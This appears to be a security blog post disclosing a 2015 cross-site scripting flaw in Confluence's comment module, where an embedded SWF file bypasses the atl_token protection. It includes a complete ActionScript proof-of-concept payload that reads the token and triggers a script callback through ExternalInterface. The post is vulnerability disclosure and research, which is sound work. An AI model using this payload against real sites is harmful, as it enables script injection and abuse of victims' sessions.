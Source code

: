 ```yaml
---
title: XSS on Jira's Confluence Data Center
date: 2016-05-11 00:00:00 +02:00
categories:
- XSS
- SWF
layout: post
excerpt: On `02/Jul/2015 3:27 AM` i found a XSS flaw on confluence, https://jira.atlassian.com/browse/CONF-38127
comments: true
thumbnail: japan.jpg
---
```


On `02/Jul/2015 3:27 AM` I found a XSS flaw on confluence, https://jira.atlassian.com/browse/CONF-38127

In confluence comment module, User can upload and embed the swf file in their comment. Confluence is using an `atl_token` parameter on GET HTTP request, if the attacker sends the link of .SWF file( the value of src on embed tag) to his victim the malicious SWF file won’t execute on the victim’s browser. Every user has atl_token. This is a CSRF protection and XSS protection too. We can bypass this protection by using `this.loaderInfo.parameters` in malicious .SWF. `this.loaderInfo.parameters.parameter_name` extracts the value of your target parameter, in this case, it `is atl_token`. The attacker must also insert a `<a>` tag in malicious SWF file then append the extracted atl_token to `<a>` tag , so if the victim clicks the link(`<a>`) in our embed SWF file, the .SWF file will be executed in the victim’s browser.

## Payload

{% highlight text %}
package
{
import flash.display.Sprite;
import flash.text.TextFormat;
import flash.text.TextField;
import flash.external.ExternalInterface;

public class Main extends Sprite
{

public function Main()
{
super();
var myFormat:TextFormat = new TextFormat();
myFormat.size = 200;
var xcode:String = this.loaderInfo.parameters.atl_token;
var myText:TextField = new TextField();
myText.width = 1000;
myText.height = 1000;
myText.htmlText = "<font size=\'300px\'> <a target=\'_blank\' href=\'https://pwnie.ninja/confluence/download/attachments/9469955/NewProjectx.swf?atl_token=" + xcode + "&callback=alert\'>CliCK ME</a> </font>";
addChild(myText);
ExternalInterface.call(this.loaderInfo.parameters.callback,"xss");
}
}
}
{% endhighlight %}


## References:
* [Jira Report](https://jira.atlassian.com/browse/CONF-38127)
* [Loaderinfo-parameter-in AS3](http://stackoverflow.com/questions/6057211/loaderinfo-parameters-in-as3)
